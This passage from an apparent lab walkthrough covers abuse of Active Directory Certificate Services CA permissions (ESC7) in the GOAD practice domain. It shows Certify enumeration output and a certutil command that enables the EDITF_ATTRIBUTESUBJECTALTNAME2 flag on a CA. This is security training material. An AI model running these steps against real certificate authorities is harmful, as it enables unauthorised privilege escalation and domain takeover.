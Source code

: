 ```bash
Restart-Service CertSvc

WARNING: Waiting for service 'Active Directory Certificate Services (CertSvc)' to stop...
WARNING: Waiting for service 'Active Directory Certificate Services (CertSvc)' to start...

Status   Name               DisplayName
------   ----               -----------
Running  CertSvc            Active Directory Certificate Services
```

## ESC7: Vulnerable Certificate Authority Access Control

ESC7 is all about getting direct access to the CA itself. If you can get ManageCA or ManageCertificates permissions, you basically own the entire certificate infrastructure.

Let's see what permissions we have in GOAD. Check if we have ManageCA rights:

```bash
Certify.exe find /vulnerable

[!] Vulnerable Certificates Templates :

    CA Name                       : braavos.essos.local\ESSOS-CA
    Permissions
      Owner                       : BUILTIN\Administrators        Access: GenericAll
      Access Rights               : ESSOS\Domain Admins           Access: GenericAll
      Access Rights               : ESSOS\Enterprise Admins       Access: GenericAll
      Access Rights               : ESSOS\viserys.targaryen       Access: ManageCA
      Access Rights               : ESSOS\viserys.targaryen       Access: ManageCertificates
```

Perfect! `viserys.targaryen` has ManageCA and ManageCertificates rights in GOAD.

### ManageCA Rights Exploitation

ManageCA rights are like having the keys to the kingdom. Here's what you can do:

```bash
# If you have ManageCA, you can:
# 1. Enable EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -config "braavos.essos.local\ESSOS-CA" -setreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

CertUtil: -setreg command completed successfully.

# 2. Certificate manager rights
# As the Certify output indicated, viserys.targaryen already possesses ManageCA and ManageCertificates rights in our GOAD scenario.
# An attacker gaining these rights would typically do so by compromising an account that already has them, or by escalating to a level
# where they can modify the CA's Active Directory object permissions or the CA server's local groups.
# With ManageCA rights, one can assign officer rights (ManageCertificates) through the Certificate Authority console (certsrv.msc).

# 3. Restart services to apply changes
Restart-Service CertSvc
```
